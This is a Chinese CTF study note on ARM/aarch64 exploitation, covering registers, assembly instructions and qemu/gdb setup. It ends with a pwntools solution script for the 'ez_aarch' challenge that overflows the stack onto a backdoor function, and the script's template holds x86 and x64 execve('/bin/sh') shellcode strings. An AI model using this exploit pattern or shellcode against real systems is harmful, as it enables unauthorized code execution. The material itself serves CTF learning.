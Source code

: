 ```yaml
---
title: arm异构总结
date: 2022-04-15 22:54:59 +0800
categories: [漏洞利用总结]
tags: [pwn, ctf]
permalink: /posts/id=11/
pin: false
published:
---
```

参考文章：

[ ARM架构的pwn题详解___lifanxin的博客](https://blog.csdn.net/A951860555/article/details/116780827)

## Arm/aarch64

aarch64寄存器

| 寄存器  | 位数  | 描述                                                         |
| ------- | :---: | :----------------------------------------------------------- |
| x0-x30  | 64bit | 通用寄存器，如果有需要可以当做32bit使用：WO-W30              |
| FP(x29) | 64bit | 保存栈帧地址(栈底指针)                                       |
| LR(x30) | 64bit | 通常称X30为程序链接寄存器，保存子程序结束后需要执行的下一条指令，**类ret** |
| SP      | 64bit | 保存栈指针,使用 SP/WSP来进行对SP寄存器的访问。               |
| PC      | 64bit | 程序计数器，俗称PC指针，总是指向即将要执行的下一条指令,在arm64中，软件是不能改写PC寄存器的。 |
| CPSR    | 64bit | 状态寄存器                                                   |

![img](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/1117042-e3fabfec65c187f5.png)

```
MOV    X1，X0         ;将寄存器X0的值传送到寄存器X1
ADD    X0，X1，X2     ;寄存器X1和X2的值相加后传送到X0
SUB    X0，X1，X2     ;寄存器X1和X2的值相减后传送到X0

AND    X0，X0，#0xF    ; X0的值与0xF相位与后的值传送到X0
ORR    X0，X0，#9      ; X0的值与9相位或后的值传送到X0
EOR    X0，X0，#0xF    ; X0的值与0xF相异或后的值传送到X0

LDR    X5，[X6，#0x08]        ；ld：load; X6寄存器加0x08的和的地址值内的数据传送到X5
LDP  x29, x30, [sp, #0x10]    ; ldp :load pair ; 一对寄存器, 从内存读取数据到寄存器

STR X0, [SP, #0x8]         ；st:store,str:往内存中写数据（偏移值为正）; X0寄存器的数据传送到SP+0x8地址值指向的存储空间
STUR   w0, [x29, #-0x8]   ;往内存中写数据（偏移值为负）
STP  x29, x30, [sp, #0x10]    ;store pair，存放一对数据, 入栈指令

CBZ  ;比较（Compare），如果结果为零（Zero）就转移（只能跳到后面的指令）
CBNZ ;比较，如果结果非零（Non Zero）就转移（只能跳到后面的指令）
CMP  ;比较指令，相当于SUBS，影响程序状态寄存器CPSR 

B   ;跳转指令，可带条件跳转与cmp配合使用
BL  ;带返回的跳转指令， 返回地址保存到LR（X30）
BLR  ; 带返回的跳转指令，跳转到指令后边跟随寄存器中保存的地址(例：blr    x8 ;跳转到x8保存的地址中去执行)
RET   ;子程序返回指令，返回地址默认保存在LR（X30）
```

详细的汇编建议看这篇[(12条消息) 关于ARM处理器指令集_朽木自雕i的博客-CSDN博客_arm处理器指令](https://blog.csdn.net/qq_45385706/article/details/108478867)

## 做题脚本(以ciscn2021channel为例)

静态编译直接运行

```bash
$ qemu-arm prog
```

动态编译可以用脚本配置

```bash
# pwnarm.sh
$ mkdir lib
$ mv ld-2.31.so ./lib/ld-linux-aarch64.so.1
$ mv libc-2.31.so ./lib/libc.so.6
$ ./qemu-aarch64-static -L ./ ./channel
```

```bash
# dbg
$ file channel
$ set architecture aarch64
$ target remote localhost:1236
```

运行exp后，开新终端使用gdb-multiarch -x dbg

## ez_aarch(aarch64)

![image-20220521214823484](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214823484.png)

![image-20220521214918961](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214918961.png)

![image-20220521214932381](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214932381.png)

题目有后门函数，直接栈溢出覆盖ret

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='aarch64', os='linux')
context.log_level = 'debug'
p=remote("node4.buuoj.cn","26246")
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./stack".split())
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ -g 1236 ./stack".split())
elf = ELF("./stack")
# libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
system = 0x400000093c

sla("Please leave your name:",'a'*0x28+p64(system))
p.interactive()
```

## channel(UAF)

[2021ciscn pwn/misc 复现](https://blog.e4l4.com/posts/ciscn_2021复现/#channelarm架构堆uaf)